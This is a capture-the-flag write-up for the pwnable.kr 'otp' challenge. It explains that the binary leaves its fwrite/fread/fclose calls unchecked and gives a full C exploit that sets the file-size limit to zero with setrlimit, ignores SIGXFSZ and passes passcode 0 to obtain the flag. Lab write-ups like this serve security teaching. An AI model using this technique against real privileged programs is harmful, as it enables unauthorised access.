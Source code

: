 # OTP

```
I made a skeleton interface for one time password authentication system.
I guess there are no mistakes.
could you take a look at it?

hint : not a race condition. do not bruteforce.
```

## What does the binary do?

```
otp@pwnable:~$ ls
flag  otp  otp.c
otp@pwnable:~$ ./otp
usage : ./otp [passcode]
otp@pwnable:~$ ./otp my_passcode
OTP generated.
OTP mismatch
```

- Receives a passcode as a command line argument
- Generating an OTP
- Comparing it to the given passcode


## Executable Information

```bash
⋊> /m/o/o/d/w/c/p/otp on master ⨯ file otp                                                                                                                                                         09:41:29
otp: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=f851771b439725c55be4ed4b0e102c2a39f4c196, not stripped

⋊> /m/o/o/d/w/c/p/otp on master ⨯ checksec otp                                                                                                                                                     09:41:31
[*] '/media/or/organic_drive/disk_content/workspace/ctfs/pwnable/otp/otp'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```


## Inspecting the Code

The code works as follows:
 - Read 2 `unsigned long long` numbers from /dev/urandom.
 - Create a file in the path: `/tmp/<first unsigned long long>`.
 - Write the seconds unsigned long long into it.
 - Close the file.
 - Open the file again (in read mode).
 - Read it contents.
 - Put it in `passcode` variable.
 - Compare it to the passcode provided in the argument.
 - If correct, print the flag.
 - Remove the `/tmp/<unsigned long long>` file.
 - quit.
 


After understanding what the code does, I tried to find a bugs that will provide
me a lead of how the hell can I pwn this challange.

I found out that when the code uses `open()` and `read()`, it checks the return code of it.
**But in the following code, `fwrite`, `fread`, `fclose` are not checked**

Why is it interesting? Imagine that the binary managed to open the /tmp file, and then attempted
to write something to it, and it failed.

When it will attemt reading the next time, its value will be 0. 
so if we provide passcode 0 we win.


### How can we make `write` fail?

We can use the `setrlimit` function. (read `man setrlimit`).
This function enables us to set resource limit on our process. These limits also enforced for all child processes, and even
preserve when calling the `exec` syscall.

By using this function, we can limit the file size that the process creates to ZERO!
which means the `write` will fail.


```C
#include <sys/time.h>
#include <sys/resource.h>
#include <stdlib.h>
#include <signal.h>


int main() {
    // The rlimit struct has 2 fields:
    // - rlim_cur: Current limit, can be set by other processes as well.
    // - rlim_max: Upper bound that the rlim_cur can be set to.
    //
    // We want both of them to be 0 so our process will not be able to write any files.
    struct rlimit file_size_limit;
    file_size_limit.rlim_cur = 0;
    file_size_limit.rlim_max = 0;

    // Set the limit on RLIMIT_FSIZE
    setrlimit(RLIMIT_FSIZE, &file_size_limit);

    // By default, when the limit is reached, SIGXFSZ is sent to the process and it gets
    // killed. We want to ignore this signal for the app to continue even after the failure.
    signal(SIGXFSZ, SIG_IGN);

    // The passcode is 0 since 0 bytes will be written to the file.
    system("/home/otp/otp 0");
}
```





## Pwned

```
otp@pwnable:~$ /tmp/mydirr/payload
OTP generated.
Congratz!
Darn... I always forget to check the return value of fclose() :(
```


